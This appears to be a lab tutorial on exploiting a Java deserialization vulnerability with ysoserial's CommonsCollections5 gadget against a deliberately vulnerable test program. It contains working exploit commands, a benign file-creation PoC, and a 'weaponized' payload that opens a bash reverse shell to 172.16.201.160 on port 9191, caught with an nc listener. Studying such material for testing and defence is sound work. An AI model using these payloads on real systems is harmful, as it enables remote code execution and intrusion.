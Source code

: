 #### 3.1. Info

The following example will show how to exploit a deserialization vulnerability triggered via `readObject` method in a dummy test application.

Scenario:

- vulnerability was detected via Burp extension `https://github.com/federicodotta/Java-Deserialization-Scanner`
  - `Apache Commons Collections 3 Alternate payload 2 (Sleep)`

- exploit the vulnerability via `https://github.com/frohoff/ysoserial` 
  - this provides user-defined payloads (unlike benign `sleep` command)
  - `CommonsCollections5` payload is similar to Burp's


#### 3.2. Match the Burp scanner payload with the `yseoserial` gadget

```
# payload_str=`grep -r 'Commons Collections 3 Alternate payload 2 (Sleep)' ~/Java-Deserialization-Scanner | grep -oE '\"rO0AB.*\"' | tr -d '"' | tr -d '\n' | head -c 32`
# options=`java -jar ~/ysoserial.jar 2>&1 | grep -i 'commons-collections:3.1' | awk '{print $1}'`
# for i in $options; do java -jar ~/ysoserial.jar $i ls 2>/dev/null | base64 | grep -oE $payload_str && echo $i; done
rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50
CommonsCollections5
```
Note: this indicates that `CommonsCollections5` from `yseoserial` is the gadget identified to work with the target.


#### 3.3. Project setup (vulnerable application)

a) The following code `/tmp/java_serial/Main.java` simply reads a file that contains a serialized Java steam, attempts to re-build the original Java object:
```
import java.io.*;

public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        if (args.length != 1) return;
        String filename = args[0];
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object whatever = ois.readObject(); // hereby the vulnerable code
    }
}
```

b) After building `ysoserial` from source, all JAR dependencies that contain the required gadgets can be found under the local `maven` repository:
```
# find ~/.m2 -regex ".*commons.*collections.*3.1.*.jar" -exec cp -- "{}" /tmp/java_serial/ \;
```

c) Project structure - `/tmp/java_serial`:
```
# tree
.
├── collections5.serial
├── commons-collections-3.1.jar
└── Main.java

0 directories, 3 files
```

d) Compiling the program:
```
# javac Main.java # compile as regular Java program
# javac -cp commons-collections-3.1.jar: Main.java # in case classes from JAR file are imported in the Java program
```


#### 3.4. Exploitation - part 1 (benign)

Note:
- it is enough to provide the gadget JAR as part of the Java Class Path when running the application (similar to WebLogic)
- after running the program, successful exploitation creates `/tmp/this_is_a_test` file

a) Generate the `ysoserial` payload for `CommonsCollections5`:
```
# java -jar ~/ysoserial.jar CommonsCollections5 'touch /tmp/this_is_a_test' > /tmp/java_serial/collections5.serial
```

b) Exploitation - PoC:
```
# [ -e /tmp/this_is_a_test ] && echo 'OK' # does not print out anything
# java -cp commons-collections-3.1.jar: Main collections5.serial
# [ -e /tmp/this_is_a_test ] && echo 'OK'
OK
```


#### 3.5. Exploitation - part 2 (weaponized)

Note: remember to patch `ysoserial` - `CommonsCollections5.java` before running complex commands as part of your payload.

a) Generate the `ysoserial` payload for `CommonsCollections5`:
```
# java -jar ~/ysoserial.jar CommonsCollections5 "/bin/bash -i >& /dev/tcp/172.16.201.160/9191 0>&1" > /tmp/java_serial/collections5.serial
```

b) Exploitation - PoC:
```
# java -cp commons-collections-3.1.jar: Main collections5.serial
# nc -nlvp 9191
listening on [any] 9191 ...
connect to [172.16.201.160] from (UNKNOWN) [172.16.201.160] 56546
...
```
